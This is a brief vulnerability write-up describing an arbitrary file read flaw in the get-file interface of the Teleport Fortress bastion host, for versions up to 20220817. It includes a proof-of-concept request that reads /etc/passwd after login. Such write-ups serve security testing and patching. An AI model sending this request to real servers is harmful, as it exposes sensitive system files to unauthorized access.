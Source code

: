 # Teleport Fortress get-file background arbitrary file reading vulnerability

## Vulnerability Description

Teleport Fortress get-file interface has a vulnerability to read arbitrary file in the background. The attacker can obtain background permissions after using any user login vulnerability, and then further use any file to read and obtain sensitive files on the server.

## Vulnerability Impact

Teleport Version <= 20220817

## Network surveying and mapping



## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1660720653270-fcd22c8e-0df1-42ea-aa02-2c94e0770e76.png)

Use POC verification after logging in

```php
/audit/get-file?f=/etc/passwd&rid=1&type=rdp&act=read&offset=0
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1661232312843-695b528d-23f9-4b57-b925-182f79977734.png)